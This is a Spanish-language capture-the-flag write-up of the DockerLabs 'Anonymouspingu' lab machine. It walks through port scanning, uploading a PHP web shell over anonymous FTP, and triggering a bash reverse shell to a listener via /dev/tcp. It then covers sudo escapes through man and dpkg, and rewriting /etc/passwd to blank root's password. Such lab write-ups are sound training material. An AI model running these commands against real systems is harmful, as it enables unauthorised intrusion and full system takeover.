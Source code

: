 ```yaml
---
layout: post
title: "Anonymouspingu"
date: 2024-09-02
 14:20:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Anonymouspingu </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/anonymouspingu/host.png){:.margin}

**1\.** Descubriendo puertos y servicios de la maquina.

`sudo nmap -p- --open --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/anonymouspingu/nmap.png){:.margin}

**2\.** Vamos a revisar la web, si clickamos en "acceder al backend" nos lleva a la ruta de "upload" el cual esta vacio.

`http://172.17.0.2/`

![img](/notas/public/img/dockerlabs/anonymouspingu/80.png){:.margin}
![img](/notas/public/img/dockerlabs/anonymouspingu/80upload.png){:.margin}

**3\.** Ingreso al ftp como anonimo, vemos que el directorio upload tiene los permisos, creamos una shell y lo subimos al servidor.

`nvim shell.php`

`ftp 172.17.0.2`

`dir`

`cd upload`

`put shell.php`

![img](/notas/public/img/dockerlabs/anonymouspingu/ftp.png){:.margin}

**4\.** Ahora desde el navegador tenemos una web shell, nos ponemos en escucha por nc y obtenemos la reverse shell.

`nc -nlvp 4000`

`http://172.17.0.2/upload/shell.php?cmd=bash -c 'bash -i>%26 /dev/tcp/192.168.18.8/4000 0>%261'`

![img](/notas/public/img/dockerlabs/anonymouspingu/nc.png){:.margin}

**5\.** Podemos ejecutar el binario man como el usuario pingu sin proporcionar contraseña.

`sudo -l`

![img](/notas/public/img/dockerlabs/anonymouspingu/sudol.png){:.margin}

**6\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`stty raw -echo;fg`

`reset xterm`

`export TERM=xterm`

`export SHELL=/bin/bash`

![img](/notas/public/img/dockerlabs/anonymouspingu/stty.png){:.margin}
![img](/notas/public/img/dockerlabs/anonymouspingu/stty2.png){:.margin}

**7\.** Obtenemos una bash como pingu; referencia [gtfobins](https://gtfobins.github.io/gtfobins/man/#sudo).

`sudo -u pingu /usr/bin/man man`

`!/bin/bash`

![img](/notas/public/img/dockerlabs/anonymouspingu/bashpingu.png){:.margin}

**8\.** Ya estando como pingu, revisando los permisos sudo de este usuario tenemos dos binarios, que podemos ejecutarlos como gladys.

`sudo -l`

![img](/notas/public/img/dockerlabs/anonymouspingu/sudolpingu.png){:.margin}

**9\.** Obtenemos la bash como gladys; referencia [gtfobins](https://gtfobins.github.io/gtfobins/dpkg/#sudo).

`sudo -u gladys /usr/bin/dpkg -l`

`!/bin/bash`

![img](/notas/public/img/dockerlabs/anonymouspingu/bashgladys.png){:.margin}

**10\.** Tenemos un binario que podemos ejecutarlo como root, revisamos el passwd, vemos que el propietario puede escribir en el archivo.

`sudo -l`

`ls -l /etc/passwd`

![img](/notas/public/img/dockerlabs/anonymouspingu/sudolgladys.png){:.margin}

**11\.** Escalando privilegios.

_11.1- Primero asignamos a gladys como propietario del passwd_

`sudo /usr/bin/chown gladys:gladys /etc/passwd`

![img](/notas/public/img/dockerlabs/anonymouspingu/chown.png){:.margin}

_11.2- Copiamos todo el passwd y borramos la X que indica la contraseña habilitada de root y lo redirigmos al passwd_

`echo 'root::0..........' > /etc/passwd`

`grep root /etc/passwd`

![img](/notas/public/img/dockerlabs/anonymouspingu/passwd.png){:.margin}

_11.3- Migramos a root_

`su root`

![img](/notas/public/img/dockerlabs/anonymouspingu/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>